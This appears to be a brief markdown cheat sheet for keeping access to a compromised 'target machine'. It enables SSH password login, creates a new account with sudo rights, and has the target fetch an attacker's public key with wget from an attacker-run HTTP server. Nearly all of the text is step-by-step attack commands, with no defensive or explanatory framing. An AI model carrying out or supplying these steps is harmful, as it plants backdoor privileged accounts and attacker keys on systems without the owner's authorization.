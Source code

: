 
# Create SSH User
    
1. ### Create user 
	
   (target machine)
   replace/modify sshd_config to allow password login
                         	
	   service sshd restart
	   
	   adduser <new_user>
	   passwd <new_user_password>
	   usermod -aG sudo <new_user>
	   
	   ssh <new_user>@<target_address>
	   cd ~
	   sudo echo test > testfile
	   ls testfile  

2. ### Upload user public key

	(1. attacker machine)

	   ssh-keygen
	   python -m SimpleHTTPServer <unused_port>

	(2. target machine)
	
	   wget <attacker_address>:<unused port>/<key_file_path>